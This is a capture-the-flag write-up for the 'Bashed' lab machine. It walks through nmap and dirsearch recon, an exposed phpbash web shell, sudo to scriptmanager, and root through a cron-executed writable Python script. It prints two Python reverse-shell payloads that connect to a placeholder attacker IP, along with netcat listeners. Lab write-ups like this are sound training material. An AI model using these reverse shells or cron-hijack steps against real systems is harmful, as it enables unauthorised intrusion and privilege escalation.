# Bashed - Write-up

## 1. Reconnaissance

An initial full-port scan was performed using nmap:

```nmap -sC -sV 10.129.55.18 ```




Only one service was discovered:
- 80/tcp - Apache HTTP Server
- Website title: "Arrexel's Development Site"

## 2. Directory Enumeration

Dirsearch showed an exposed development directory ```/dev```

```dirsearch -u http://10.129.55.18 ```



## 3. Web Content Review

Navigating to the site presented the Arrexel development landing page.



Accessing the /dev folder revealed an interactive web shell file, ```phpbash.min.php```



Opening the file provided a fully interactive web-based shell as ```www-data```



## 4. Local enumeration

The sudo configuratopm allowed unrestricted command execution as the scriptmanager user:



First we upgrade to a stable reverse shell:

```
python3 -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<YOUR-IP>",<YOUR-PORT>));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty; pty.spawn("bash")'
```

```
nc -lnvp <YOUR-PORTz>
```



We find the user flag in the home directory of Arrexel

## 5. Privilege Escalation to scriptmanager

Using the sudo privilege:

```sudo -i -u scriptmanager /bin/bash```

an interactive shell was obtained as ```scriptmanager```



inside the system a directory named ```scripts``` was found, containing ```test.py``` and ```test.txt```.



Reviewing the contents of test.py:



The script writes "testing 123!" into ```test.txt```, indicating that an automated process is invoking it.
The script is being invoked every minute, which further confirms this.

We replace the content of test.py with:

```
cat << 'EOF' > test.py
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<YOUR_IP>",<YOUR-PORT>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
EOF
```

and in a seperate terminal we run:

```
nc -lnvp <YOUR-PORT>
```

After a minute we get the root shell



Pwned! :D

## 6. Conclusion

- Unrestricted sudo rights from ```www-data``` to ```scriptmanager```
- Writeable Python scripts executed by a privileged cron job
- and execution of a malicious Python payload to obtain a root shell